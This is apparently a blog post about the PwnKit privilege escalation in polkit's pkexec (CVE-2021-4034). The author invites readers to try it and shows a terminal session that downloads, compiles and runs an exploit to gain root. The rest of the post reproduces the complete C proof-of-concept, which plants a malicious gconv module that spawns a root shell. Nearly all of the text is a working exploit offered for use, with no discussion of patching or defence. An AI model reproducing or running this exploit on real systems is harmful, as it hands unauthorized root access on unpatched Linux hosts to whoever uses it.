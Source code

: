 ```yaml
---
title: "Local-Privilege-Escalation-in-polkits-pkexec"
date: "2022-01-26T06:21:12-05:00"
Tags: ["vuln", "cve"]
Categories: ["security"] 
---
```

The big news in Linux today is the [Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://seclists.org/oss-sec/2022/q1/90), with [Arstechnica](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) leading with, "`A bug lurking for 12 years gives attackers root on every major Linux distro - It's likely only a matter of time before PwnKit is exploited in the wild`" Needless to say, I immediately had to try it out on my own, I got on to a [Debian GNU/Linux](https://debian.org), and tried it out! Spoiler: it worked, here's how you can try it too.

```# id
uid=1000(fak3r) gid=1000(fak3r) groups=1000(fak3r),27(sudo)
$ curl -O https://haxx.in/files/blasty-vs-pkexec.c
$ gcc blasty-vs-pkexec.c
$ ./a.out
[~] compile helper..
[~] maybe get shell now?
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(fak3r)
# 
```

## Code

In case the C code is pulled, here's it is, again, I grabbed it from [haxx.in](https://seclists.org/oss-sec/2022/q1/90)

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```
